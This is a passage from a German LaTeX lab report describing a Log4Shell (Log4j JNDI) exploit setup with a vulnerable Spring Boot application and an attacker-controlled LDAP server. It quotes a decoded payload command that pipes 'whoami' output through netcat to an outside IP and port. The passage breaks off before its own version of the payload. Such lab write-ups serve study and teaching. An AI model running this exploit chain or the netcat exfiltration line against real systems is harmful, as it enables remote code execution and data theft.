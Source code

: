 
\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch sämtliche Java Versionen bereits gepatcht wurden,
wurde im Versuchsaufbau ein Git Repository verwendet. Es beinhaltet eine Java Spring Boot Web Applikation, die mit
einer Java Version läuft, die nach wie vor anfällig für Log4Shell Angriffe ist.\\
Desweiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren. Hierfür verwendet wurde ein weiteres
Git Repository in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird. Das Repository wurde jedoch aus GitHub entfernt. Das Kompilat des schädlichen
\gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\\
Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist es, eine \gls{http}-Anfrage an das Zielsystem zu senden. In der Anfrage muss nun nur noch die \gls{ip}-Addrese mit Port angegeben werden
unter denen der \gls{ldap}-Server erreichbar ist.

\bigskip

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet. Daher liegt das auszuführende Skript als base64-encoded String vor. Die \gls{bash} Befehle,
die hier der Reihe nach ausgeführt werden sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}.\\
Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht Revers Engineert werden. Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:\\



